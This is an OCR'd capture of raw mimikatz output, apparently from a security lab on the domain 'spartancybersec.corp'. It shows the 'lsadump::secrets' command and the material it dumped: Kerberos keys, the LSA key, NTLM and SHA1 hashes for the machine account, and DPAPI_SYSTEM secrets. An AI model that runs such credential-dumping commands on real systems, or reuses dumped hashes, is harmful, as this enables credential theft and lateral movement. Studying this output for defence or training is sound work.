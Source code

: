 ```

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : be9923d30a0cdf3a73493d7d32eb96e4

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : c5a174bdaaf42f78aea168d2bb0736459de5ad0b5051997187d8b86f7af8ee69
      aes128_hmac       (4096) : 17456060abe8c50bc7ec5474e44d0ae4
      des_cbc_md5       (4096) : 5e435ecec4efbfdc

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WDAGUtilityAccount
    Credentials
      des_cbc_md5       : 5e435ecec4efbfdc


mimikatz(commandline) # lsadump::secrets
Domain : WEBSERVER
SysKey : ea7b3f466f263386e6dc165bcde0d1d2

Local name : WEBSERVER ( S-1-5-21-35825707-945739770-2891244367 )
Domain name : SPARTANCYBERSEC ( S-1-5-21-1861162130-2580302541-221646211 )
Domain FQDN : spartancybersec.corp

Policy subsystem is : 1.18
LSA Key(s) : 1, default {140c9bf8-da47-a27f-96d7-2b5527fd404e}
  [00] {140c9bf8-da47-a27f-96d7-2b5527fd404e} d51da8d90b5e95219f57070b04e71dfb6e95fc27241437fc8ef876b3c2ff43a6

Secret  : $MACHINE.ACC
cur/hex : 34 f7 2c a2 fa 00 56 a8 2a bc a7 ad d3 22 c9 cf dc 8c fe f8 87 ca 51 22 44 fb 80 b4 39 22 31 03 c1 bd 32 46 81 65 98 f4 fc c2 b8 22 fc 84 7f c3 81 fa 69 8d 77 d2 ed e9 57 b4 51 19 4b 1a 94 04 6c fc 1c 42 03 e6 1b 0a e6 90 61 40 10 9e a8 95 33 69 fa f5 65 f6 67 12 15 ae fe b7 64 ce d7 58 27 c7 62 7d 5d 79 40 73 c9 b9 32 2d 7d b1 82 5d ca b5 f2 ec 28 33 ea 00 5a 83 b1 ac b6 cc 63 9b 4a 3f ab 2e f2 41 c1 3c a4 a1 8e 84 51 af 8e a7 76 f0 68 13 e4 23 be 79 32 ff 7a 6a c7 34 ac c5 44 2a c8 91 a1 76 b5 04 c5 31 ad c5 ee 13 f4 96 fa 0f 25 86 5c 34 6e f7 c3 9e e9 1e c6 8b 5c 6a 71 72 dd 8f c2 d2 c5 91 1a c9 e1 3a ac 89 24 ea ef 08 66 30 50 b1 bd d6 39 8e 9b d7 0a 5d a0 e4 b1 21 7c 20 5b dd a1 69 ce 63 d1 70 15 e9 11 f1
    NTLM:449c5f226aff8a2af42ac07ebaf901cb
    SHA1:8af38efaf6e0c5c701c5d793438fbcdf4815777a
old/hex : de ce 87 d1 ac 7b 8a ff c5 3b db 11 1d bd 9f 81 ca 32 f1 c5 cc 3f 89 cc 95 80 7a 97 1c 5d 2d 8b 28 af 7d 25 1a 53 7e b9 5c b9 2a 23 6a fb ca bb 9e 20 16 d4 3c f6 7e b4 b4 76 48 c6 b7 10 25 9a 07 b5 07 b2 7f d2 b1 b0 a1 b0 f9 ce a1 92 a7 26 3d 0d ff ca d8 16 5b 60 9d 20 64 ea d9 0b f5 5a c0 0f 79 1f a0 b4 e3 43 cd 63 d1 ec 14 f8 5d bb 4c e0 22 da 1e 83 6f 1a eb 39 82 cd 45 97 23 ea a4 ef d0 52 72 96 cb a1 f5 1c 07 ea ef cb 45 17 7b 5a f0 0b 8b 57 bb 8f 1e 35 2f f3 55 57 61 5b 4f 12 2f 51 11 c2 1b 60 59 39 c6 df 0c 06 9b 11 db 70 92 9e 90 6b 6c 49 f8 f7 d4 af 4c 86 21 87 e4 ea 57 50 a6 b7 87 ad 4d 61 c5 b0 35 84 79 c6 9d 26 8f a7 0f e7 3a e3 fb 34 24 88 27 fd c5 ae d5 61 67 1e eb 78 a7 05 dc 38 9a 9c 72 0a 44 cc
    NTLM:7d0c4cdc32724b99ef4459147401471a
    SHA1:cd54e4ac32cca2e2ad07df657a832d9ee1cabe04

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 91 be 0d 0d 7a 07 12 fc 89 cd eb f3 39 1e 99 37 6b 34 ac d1 b5 b9 27 6f 74 f7 bb 7f 9b 8c 21 e6 39 98 83 e7 19 c4 ef f4
    full: 91be0d0d7a0712fc89cdebf3391e99376b34acd1b5b9276f74f7bb7f9b8c21e6399883e719c4eff4
    m/u : 91be0d0d7a0712fc89cdebf3391e99376b34acd1 / b5b9276f74f7bb7f9b8c21e6399883e719c4eff4
```